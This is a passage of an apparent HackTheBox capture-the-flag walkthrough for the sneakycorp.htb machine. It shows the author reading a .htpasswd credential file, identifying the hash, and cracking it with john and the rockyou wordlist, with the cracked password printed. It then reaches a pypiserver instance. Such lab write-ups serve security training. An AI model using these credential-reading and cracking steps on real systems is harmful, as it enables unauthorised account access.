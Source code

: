 We already saw 2 references to pypi, now there is a venv folder own by low
and in `/etc/passwd` an account named pypi which has a home folder named
`/var/www/pypi.sneakycorp.htb`.

It seems the pe will go through venv/pypi.

```
ls -lhA /var/www/pypi.sneakycorp.htb
total 12K
-rw-r--r-- 1 root root       43 May 15 14:29 .htpasswd
drwxrwx--- 2 root pypi-pkg 4.0K Nov  9 12:19 packages
drwxr-xr-x 6 root pypi     4.0K May 14 18:25 venv
```

We can check the hash:

```
cat /var/www/pypi.sneakycorp.htb/.htpasswd
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

Let's see the kind of hash:

```
$ haiti '$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/'
MD5(APR) [HC: 1600]
Apache MD5 [HC: 1600]
```

```
$ john hash.txt --wordlist=/usr/share/wordlists/passwords/rockyou.txt --format=md5crypt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
soufianeelhaoui  (pypi)
1g 0:00:00:27 DONE (2020-11-09 21:36) 0.03652g/s 130543p/s 130543c/s 130543C/s souhegan..souderton0
Use the "--show" option to display all of the cracked passwords reliably
Session complete
```

Let's add the new sub-domain to `/etc/hosts`.

```
$ cat /etc/hosts | grep sneak
10.10.10.197 sneakycorp.htb dev.sneakycorp.htb pypi.sneakycorp.htb
```

On port 80 we have the same website as for sneakycorp.htb but on port 8080
we can see an app called pypiserver. (http://pypi.sneakycorp.htb:8080/)

>  Welcome to pypiserver!
>
> This is a PyPI compatible package index serving 0 packages.
>
> To use this server with pip, run the following command:
>
>         pip install --index-url http://pypi.sneakycorp.htb/simple/ PACKAGE [PACKAGE2...]
>
>
> To use this server with easy_install, run the following command:
>
>         easy_install --index-url http://pypi.sneakycorp.htb/simple/ PACKAGE [PACKAGE2...]
>
>
> The complete list of all packages can be found [here](http://pypi.sneakycorp.htb:8080/packages/) or via the [simple](http://pypi.sneakycorp.htb:8080/simple/) index.
>
> This instance is running version 1.3.2 of the [pypiserver](https://pypi.org/project/pypiserver/) software.
